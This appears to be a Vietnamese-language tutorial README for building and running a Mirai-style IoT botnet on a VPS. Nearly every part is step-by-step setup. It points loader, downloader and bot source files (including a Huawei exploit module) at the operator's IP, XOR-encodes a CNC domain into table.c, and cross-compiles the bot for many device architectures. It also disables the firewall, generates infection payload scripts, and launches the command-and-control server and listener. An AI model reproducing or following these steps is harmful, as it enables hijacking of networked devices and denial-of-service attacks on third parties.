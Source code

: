 TUT của zxcr9999

### Sao chép và dán tất cả vào shit vps của bạn
```
yum update -y
```
```
yum install epel-release -y
```
```
yum groupinstall "Development Tools" -y
```
```
yum install gmp-devel -y
```
```
ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10
```
```
yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y
```

### cài đặt golang
```
cd /tmp
wget https://dl.google.com/go/go1.13.linux-amd64.tar.gz
```
```
sha256sum go1.13.linux-amd64.tar.gz
```
```
sudo tar -C /usr/local -xzf go1.13.linux-amd64.tar.gz
```
```
export PATH=$PATH:/usr/local/go/bin
```
```
export GOROOT=/usr/local/go
```
```
export GOPATH=$HOME/Projects/Proj1
```
```
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
```
```
export GOROOT=/usr/local/go; export GOPATH=$HOME/Projects/Proj1; export PATH=$GOPATH/bin:$GOROOT/bin:$PATH; go get github.com/go-sql-driver/mysql; go get github.com/mattn/go-shellwords
source ~/.bash_profile
```
```
go version
go env
cd ~/
```

### thay đổi ip

`loader/src/main.c`

`loader/src/headers/config.h`

`dlr/main.c`

`bot/huawei.c`

`bot/util.c`


### thêm tên miền

kéo tệp `enc.c` vào vps của bạn và gõ lệnh
```
gcc enc.c -o enc -std=c99
```
```
./enc string botnet.yourdomain.com
```
và thêm `TABLE_CNC_DOMAIN` vào trong tệp `table.c`

`botnet.yourdomain.com` là tên miền của bạn và nó được kết nối với IP để lưu trữ botnet

`add_entry(TABLE_CNC_DOMAIN, "\xa2\xaf\xa2\xef\xb3\xa0\xbb\xaf\xa4\xb5\xf3\xf1\xf3\xf0\xef\xac\xad", 17);`

số 17 sẽ tương ứng với byte xor
```
mkdir /etc/xcompile
cd /etc/xcompile
```
```
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-mips.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-mipsel.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-powerpc.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-sh4.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-sparc.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv4l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv5l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-armv7l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-x86_64.tar.bz2
```
```
tar -jxf cross-compiler-i586.tar.bz2
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-armv5l.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2
tar -jxf cross-compiler-armv7l.tar.bz2
tar -jxf cross-compiler-x86_64.tar.bz2
```
```
rm -rf *.tar.*
```
```
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv4l armv4l
mv cross-compiler-armv5l armv5l
mv cross-compiler-armv6l armv6l
mv cross-compiler-armv7l armv7l
mv cross-compiler-x86_64 x86_64
```

### Bắt đầu xây dựng
```
service firewalld stop
service iptables stop 
service httpd restart  
service mariadb stop
```
```
cd cnc/
sh build.sh
```
```
cd ~/
chmod 777 *
sh build.sh
```
```
nano /usr/include/bits/typesizes.h
```
cuộn xuống và chỉnh sửa 1024 thành 999999

SAU ĐÓ LƯU
```
ulimit -n999999; ulimit -u999999; ulimit -e999999
```
### Xây dựng file `.sh`
```
python payload.py
```
### Cách khởi động cnc và listen
```
cd cnc/
screen ./cnc 56999 1337 10
screen ./listen
```
----------------------------------------------------------
Help: 56999 là cổng bot (nếu muốn thay thì vào file `bot/main.c` dòng 429), 1337 là cổng cnc, 10 là luồng (tối đa luồng là 750)
